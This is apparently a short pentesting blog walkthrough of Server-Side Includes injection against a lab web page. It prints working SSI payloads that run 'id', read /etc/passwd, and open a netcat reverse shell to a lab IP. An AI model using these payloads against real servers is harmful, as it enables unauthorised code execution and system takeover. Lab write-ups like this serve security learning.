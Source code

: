 ```yaml
---
layout: post
title: Server-Side Includes (SSI) Injection
categories:
  - Web-Pentesting
---
```


<br>For this first put some name in the field

![43](https://teckk2.github.io/assets/images/Web%20Pentest/A1/43.png)
![44](https://teckk2.github.io/assets/images/Web%20Pentest/A1/44.png)
<br>It's showing our input name and our machine IP
![45](https://teckk2.github.io/assets/images/Web%20Pentest/A1/45.png)
<br>But if you focus in the URL it’s not html it’s shtml that’s because it’s using server side include, now because of this we can try server side include injection on this
![46](https://teckk2.github.io/assets/images/Web%20Pentest/A1/46.png)
<br><font color="Green"> <!--#exec cmd="id"--> </font>
<br>Yes, this looks like a comment in HTML/XML but it’s not! This SSI varies from server to server(Linux to Windows).
We
![47](https://teckk2.github.io/assets/images/Web%20Pentest/A1/47.png)
<br>We got RCE from this
<br>You can also try few other commands also
<br><font color="Green"> <!--#echo var="DATE_LOCAL" --> </font>
<br><font color="Green"> <!--#exec cmd="cat /etc/passwd"--> </font>
<br>**Getting shell from RCE**
![48](https://teckk2.github.io/assets/images/Web%20Pentest/A1/48.png)
<br><font color="Green"> <!--#exec cmd="nc -nv 192.168.140.136 4455 -e /bin/bash"--> </font>
![49](https://teckk2.github.io/assets/images/Web%20Pentest/A1/49.png)

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
